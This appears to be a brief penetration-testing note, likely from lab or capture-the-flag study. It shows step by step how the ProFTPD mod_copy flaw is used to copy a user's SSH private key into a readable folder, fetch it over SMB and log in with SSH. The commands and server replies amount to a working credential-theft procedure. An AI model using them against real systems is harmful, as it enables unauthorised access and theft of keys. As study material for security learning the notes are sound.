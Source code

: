 FTP ran on port 21.
# ProFtpd
If the version is vulnerable to **mod_copy** module.
You can copy the RSA keys with:
```bash
$ nc <IP> 21
SITE CPFT /home/<usr>/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```

Now you have the id_rsa file stored in the /var/tmp folder of the remote machine, you can now use SMB to mount it on your computer [[Samba]]

After you can connect with ssh to the computer:
```bash
$ sudo chmod 600 id_rsa
$ ssh -i id_rsa <user>@<IP>
```